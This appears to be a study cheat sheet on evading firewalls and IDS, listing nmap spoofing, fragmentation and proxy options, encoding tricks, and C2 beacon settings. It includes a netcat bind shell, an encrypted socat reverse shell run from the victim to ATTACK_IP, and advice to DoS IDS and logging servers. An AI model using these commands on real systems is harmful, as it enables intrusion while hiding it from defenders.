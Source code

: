 ### Tools: nmap, netcat/socat

# EVASION VIA PROTOCOL MANIPULATION

### 1) Relying on a different protocol

### 2) Manipulating (source) TCP/UDP Port

### 3) Using session splicing (IP Packet fragmentation)

### 4) Sending invalid packets

## 1st technique example

#### 1) nc -lvnp 25 (Gives the imp[ression that it is a usual TCP connection with an SMTP server)

#### Counter: Deep Packet Inspection (DPI)

#### 2) nc -ulvnp 162 (UDP Connection)

#### Counter: DPI

# 2nd Technique example

#### 1) nmap -sS -Pn -g 80 -F TARGET_IP (HTTP Server spoof)

#### 2) nmap -sU -Pn -g 53 -F TARGET_IP (DNS Server spoof)

#### 3) Can be used with netcat as well

# 3rd Technique example

### nmap options: 

#### -f = Set the data in IP packet to 8 bytes

#### -ff = To limit the data in the IP packet to 16 bytes at most

#### --mtu SIZE = Custom data size (Multiple of 8)

# 4th Technique example

### nmap options:

#### --badsum

#### --scanflags: URG ACK PSH RST SYN FIN (Custom TCP flag combinations)

# EVASION VIA PAYLOAD MANIPULATION

### 1) Obfuscating and encoding the payload

### 2) Encrypting the communication channel

### 3) Modifying the shellcode

# 1st Technique example

### 1) Encode to Base64 format

#### 1: cat input.txt

#### 2: nc -lvnp 1234 -e /bin/bash

#### 3: base64 input.txt

### 2) URL Encoding

#### urlencode nc -lvnp 1234 -e /bin/bash

### 3) Escaped Unicode

### Tool: Cyberchef

#### 1) Search "Escape Unicode Characters"

#### 2) Drag to recipe

#### 3) Checkmark "encode all chars with a prefix of \u"

#### 4) Checkmark "Uppercase hex with a padding of 4"

## 2nd Technique example

### Encrypted reverse shell steps:

### 1) Create the key

### 2) Listen on the attacker's machine

### 3) Connect to the attacker's machine

#### 1) openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.example.gr/O=example COM/C=GR' -nodes -keyout gr-reverse.key -out gr-reverse.crt

#### 2) cat gr-reverse.key gr-reverse.crt > gr-reverse.pem

#### 3) socat -d -d OPENSSL-LISTEN:4443,cert=gr-reverse.pem,verify=0,fork STDOUT

#### 4) Victim: socat OPENSSL:ATTACK_IP:4443,verify=0 EXEC:/bin/bash

## 3rd Technique example

#### 1) Add an extra white space (nc -)

#### 2) Try nc/ncat/socat

#### 3) Change the order of the flags (nc -lvnp TARGETED) (nc -vnlp EVADED) 

# EVASION VIA ROUTE MANIPULATION

### 1) Relying on source routing

### 2) Proxy servers

## Source Routing

### Tool: nmap 

#### options: --ip-options

#### L ANY_IP ANY_IP = Loose routing

#### S ANY_IP ANY_IP = Strict routing

## Proxy Servers 

### Tools: nmap, proxychains, foxyproxy

### nmap options: --proxies 

### format: PROTOCOL://HOST:PORT

### Example:

#### nmap -sS HTTP://PROXY_HOST:8080,SOCKS4://PROXY_HOST2:4153 TARGET_IP

# EVASION VIA TACTICAL DENIAL OF SERVICE (DoS)

### 1) Launch DoS against IDS/IPS

### 2) Laucnh DoS against logging server

### 3) Create huge amount of benign traffic

# COMMAND AND CONTROL

### Tools: Cobalt Strike, Powershell Empire, Covenant, etc.

### Variables:

#### 1) User-Agent

#### 2) Sleep Time

#### 3) Jitter (add randomness to sleep time)

#### 4) SSL Certificate

#### 5) DNS Beacon
